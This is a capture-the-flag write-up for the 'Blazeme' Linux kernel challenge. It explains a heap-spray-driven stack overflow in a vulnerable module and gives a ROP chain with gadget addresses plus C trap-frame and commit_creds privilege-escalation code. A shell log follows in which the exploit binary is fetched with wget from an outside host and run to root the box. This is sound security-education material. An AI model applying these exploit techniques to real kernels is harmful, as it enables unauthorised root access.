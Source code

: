 # Blazeme
**Category**: Pwn

420 Points

4 Solves

Problem description:

```
Kernel exploitation challenge!

ssh blazeme@18.222.40.104 password: guest

Download here (6 MB)

The flag in this archive is not the real flag. It's there to make you feel good when your exploit works locally.

Author: crixer
```

Basically, babby's first kernel pwn.

Ok, so we are given a vulnerable kernel module. First off, we see two problems:
 - race condition on read, what if kbuf becomes NULL after the check? not exploitable
 - `strncat(str, kbuf, strlen(kbuf))` with `char str[512]` on stack **exploitable**

We have a kernel stack overflow, but wait:
```C
#define KBUF_LEN (64)
// ...
if (count > KBUF_LEN) {
    printk(KERN_INFO "blazeme_wrtie invaild paramter count (%zu)\n", count);
    ret = ERR_BLAZEME_OK;
    goto out;
} 
```
Oof. So how do we overflow a 512-byte buffer with a 64-byte one?
Simple: `kbuf = kmalloc(KBUF_LEN, GFP_KERNEL)`, but `kbuf` is never freed.
Sometimes, the kernel will hand us a kbuf in the same page as last time, and the data is never deinitialized.
The idea is to repeatedly perform 64-byte non-null write on `/dev/blazeme` until we fill up 512+ bytes of contiguous non-null bytes.
In effect, that "page spray" will allow us to overflow the stack buffer.
However, the big caveat is that our payload must be non-null. Technically, you can work around this to get partial overwrites with null bytes, but it's not needed.

Using a pattern, we can deduce our return address has to be at offset 0x18 from the beginning of a 64-byte block.
However, we don't necessarily know *which* block will be the one to overflow the stack buffer. That means our ropchain needs to be <`64-0x18` bytes in length, giving us 5 gadgets.
Luckily, we are given vmlinuz so we extract it and we can use ROPgadget.py to find gadgets. Tons of non-null gadgets are available.
Since it's running in QEMU, there is no ASLR (hooray).

To pivot to userland, we need to jump to an address with the high 16 bits zeroed.
0xffffXXXXXXXXXXXX is kernelland, and we can't mmap into that, but 0x00007fXXXXXXXXXX seems to work fine.
With that gameplan in mind, our ropchain is:

```
0xffffffff810e14d6 mov ecx, 0x10 ; mov rax, rcx ; ret
0xffffffff8127b8f9 mov eax, 0x7fffffff ; pop rbp ; ret
0x1234123412341234 popped rbp value for previous gadget
0xffffffff81102330 shl rax, cl ; ret
0xFFFFFFFF8107BC1D call rax
```
And we'll mmap our kernel shellcode at 0x00007fffffff0000.

Now we have pivoted to userland, but we are still executing "as" kernel, e.g. we haven't exited the syscall.
That means it's time to escalate privileges, then finally return back to userland for a shell:

```C
struct trap_frame64 {
    void*     rip;
    uint64_t  cs;
    uint64_t  rflags;
    void*     rsp;
    uint64_t  ss;
} __attribute__ (( packed )) tf;

void  prepare_tf(void) {
    asm(
        "xor %eax, %eax;"
        "mov %cs, %ax;"
        "pushq %rax;   popq tf+8;"
        "pushfq;      popq tf+16;"
        "pushq %rsp; popq tf+24;"
        "mov %ss, %ax;"
        "pushq %rax;   popq tf+32;"
    );
    tf.rip = &shell;
    tf.rsp  -= 1024;   //  unused  part of  stack
}

void payload() {
   commit_creds(prepare_kernel_cred(0)); // we get these functions' addresses from kallsyms.
   asm("movq $tf, %rsp; swapgs; iretq;");
}
```

Note the `swapgs`. This is necessary on x64 before a `iretq`. With that we're done.

```
$ ssh blazeme@18.222.40.104
blazeme@18.222.40.104's password:
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-1054-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  Get cloud support with Ubuntu Advantage Cloud Guest:
    http://www.ubuntu.com/business/services/cloud

1 package can be updated.
0 updates are security updates.


*** System restart required ***
Last login: Tue Apr 24 09:56:16 2018 from 108.225.193.26
WARNING: Image format was not specified for '/tmp/tmp.SdKt0lWWkV' and probing guessed raw.
         Automatically detecting the format is dangerous for raw images, write operations on block 0 will be restricted.
         Specify the 'raw' format explicitly to remove the restrictions.
warning: TCG doesn't support requested feature: CPUID.01H:ECX.vmx [bit 5]
Welcome to Buildroot
buildroot login: blazeme
Password:
login: can't change directory to '/home/blazeme'
$ cd /tmp
$ wget 123.123.123.123/a.out
Connecting to 123.123.123.123 (123.123.123.123:80)
a.out                100% |*******************************|   825k  0:00:00 ETA
$ chmod +x a.out
$ ./a.out
cs=0x33 ss=0x2b rip=0x4009ae rsp=0x7fffd223f0a0 rflags=0x246
shellcode at 0x7fffffff0000 jumping to 0x400a17
Segmentation fault
$ ./a.out
cs=0x33 ss=0x2b rip=0x4009ae rsp=0x7ffeef33fae0 rflags=0x246
ashellcode at 0x7fffffff0000 jumping to 0x400a17
HACKED!!!!!!
$ ls
a.out        messages     messages.0   resolv.conf
$ cd /
$ ls
bin         lib         media       root        tmp
dev         lib64       mnt         run         usr
etc         linuxrc     opt         sbin        var
flag        lost+found  proc        sys
$ cat flag
blaze{bblaze{blaze{blaze{blaze}}}}
```

Interesting :)
